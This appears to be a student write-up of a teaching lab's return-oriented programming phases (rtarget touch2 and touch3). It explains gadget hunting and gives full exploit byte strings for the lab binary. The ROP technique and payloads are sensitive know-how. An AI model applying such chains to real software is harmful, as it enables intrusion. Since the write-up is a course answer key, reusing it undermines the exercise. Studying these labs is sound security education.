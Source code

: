 **Preparation**

"rtarget" is different from "ctarget" in that it uses two ways to protect stack overflow.

The first one is stack randomization, which make the stack addresses differ from one run to another. So we cannot locate the stack addresses staticly.

The second is stack disexecutablity, which marks the section of memory holding the stack as nonexecutable. So even we could set the program counter to the start of out injected code, the program will still fail with a segmentation fault.

Therefore, we need a new technique called "Return Oriented Programming".

This technique is to identify byte segments in the target program that do specific instructions and followed by ```ret(c3)```. Those segments are called "gadgets". Combine those gadgets to from a chain and put them in the ```ret``` zone and the program will execute each gadget in order.

Hint: The instruction ```nop``` is an empty instruction with byte ```0x90```, which can be ignored in gadgets.

**Touch 2**

The original injected code should be like below.

```assembly
ci.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret
```

However, we cannot find such byte segment in rtarget, so we have to change our realization with the help of registers. Because the code above is related to immediate values. 

Then we could only store the cookie ```0x59b997fa``` to a register, using the assembly code

```assembly
0000000000000000 <.text>:
   0:	58                   	pop    %rax
   1:	c3                   	ret
```

with the cookie in the stack right above.

Then pass the value to ```%rdi``` and jump to the address of "touch 2" ```0x4017ec```. With the assembly code

```assembly
0000000000000000 <.text>:
   0:	48 89 c7             	mov    %rax,%rdi
   3:	c3                   	ret
```

At last, seek for the byte segment ```58 c3``` and ```48 89 c7 c3``` in "rtarget.d".

```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret
```

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret
```

So the exploit can be

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```



**Touch 3**

Since the stack is randomized, we cannot store cookie string in an absolute address. We can only store it access the cookie memory according to ```%rsp```.

One primitive assembly code is like below, with all ```ret``` line muted.

```assembly
movq    %rsp, %rdi
popq    %rax    # offset is stored above
leaq    (%rdi,%rax), %rdi
```

However, there is no corresponding byte segments. So we can only change a little bit, which acts like a puzzle hunting game.

Finally, the lines can be below.

```assembly
ci.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 89 e0             	mov    %rsp,%rax
   3:	48 89 c7             	mov    %rax,%rdi
   6:	58                   	pop    %rax
   7:	89 c2                	mov    %eax,%edx
   9:	89 d1                	mov    %edx,%ecx
   b:	89 ce                	mov    %ecx,%esi
   d:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  11:	48 89 c7             	mov    %rax,%rdi
```

The offset is ```0x48```. Find all the addresses in "rtarget.d", and the exploit can be

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
63 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```